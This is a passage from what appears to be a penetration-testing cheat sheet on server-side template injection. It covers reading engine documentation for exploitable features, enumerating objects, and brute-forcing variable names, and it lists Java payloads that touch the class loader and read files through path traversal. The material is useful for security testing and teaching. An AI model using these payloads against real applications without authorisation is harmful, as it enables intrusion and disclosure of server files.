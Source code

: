 ### Template Engine Documentation

If we identify the template engine, the first thing to do is to read the documentation of it. This will help us understand how it works and its basic syntax.

It is important to look on how to embed native code blocks in the template as it can lead to a quick exploit. We have to look for security sections in the documentation too, in this section they are usually highlighted things to avoid doing with the template and we can use them to construct an exploit.

### Explore restricted environments

In some cases we will have a restricted number of objects or functions that we can use. In this cases we will need to list variables, functions, objects, etc. The listing will depend on the language used by the template engine.

You can expect to find both default objects provided by the template engine, and application-specific objects passed in to the template by the developer. Many template systems expose a "self" or namespace object containing everything in scope, and a idiomatic way to list an object's attributes and methods.

If there is no builtin self object you are going to have to bruteforce variable names using [SecLists](https://github.com/danielmiessler/SecLists) and Burp Intruder.

## Payloads

### Generic

[Generic detection wordlist](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt)

[Generic exploitation wordlist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Intruder/ssti.fuzz)

### Java

#### Basic Injection

```java
${7*7}

${{7*7}}

${class.getClassLoader()}

${class.getResource("").getPath()}

${class.getResource("../../../../../index.htm").getContent()}
```

All of the above payloads can be used with the following variable expressions:

- ${...}
- #{...}
- *{...}
- @{...}
- ~{...}
